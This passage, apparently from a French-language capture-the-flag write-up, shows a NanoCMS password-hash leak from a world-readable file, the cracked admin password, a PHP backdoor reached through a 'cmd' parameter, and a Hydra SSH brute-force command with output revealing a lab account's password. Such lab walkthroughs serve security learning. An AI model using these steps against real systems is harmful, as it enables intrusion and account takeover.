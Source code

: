 Une recherche rapide sur Internet et je trouve une vulnérabilité concernant *NanoCMS* : ce système de blog sans base de données stocke les hashs des utilisateurs [dans un fichier texte accessible à tous](http://www.securityfocus.com/bid/34508).  

Ainsi à l'adresse */~andy/data/pagesdata.txt* j'obtiens (il s'agit d'un extrait) :  

```plain
s:5:"admin";s:8:"password";s:32:"9d2f75377ac0ab991d40c91fd27e52fd";
```

Une autre recherche rapide permet de retrouver ce hash sur le web qui correspond au mot de passe *shannon*.  

Une fois connecté en admin il est très aisé de créer une nouvelle page php pour y placer par exemple une backdoor.  

![NanoCMS edit a PHP webpage](/assets/img/ctf5.png)

On peut ensuite lancer des commandes simplement via */~andy/data/pages/pwned.php?cmd=ls*  

Mais cet accès ne semble pas apporter plus d'informations...  

J'ai préféré lancer une attaque brute-force sur les comptes SSH en utilisant une liste des 500 pires mots de passe.  

```plain
$ ./hydra -L users.txt -P top500.txt -e nsr ssh://192.168.1.69
Hydra v8.0 (c) 2014 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (http://www.thc.org/thc-hydra) starting at 2014-07-14 14:42:12
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 2510 login tries (l:5/p:502), ~9 tries per task
[DATA] attacking service ssh on port 22
[STATUS] 187.00 tries/min, 187 tries in 00:01h, 2323 todo in 00:13h, 10 active
[STATUS] 156.00 tries/min, 468 tries in 00:03h, 2042 todo in 00:14h, 10 active
[STATUS] 157.00 tries/min, 1099 tries in 00:07h, 1411 todo in 00:09h, 10 active
[STATUS] 153.92 tries/min, 1847 tries in 00:12h, 663 todo in 00:05h, 10 active
[22][ssh] host: 192.168.1.69   login: amy   password: dolphins
[STATUS] attack finished for 192.168.1.69 (waiting for children to finish) ...
1 of 1 target successfully completed, 1 valid password found
Hydra (http://www.thc.org/thc-hydra) finished at 2014-07-14 14:56:21
```
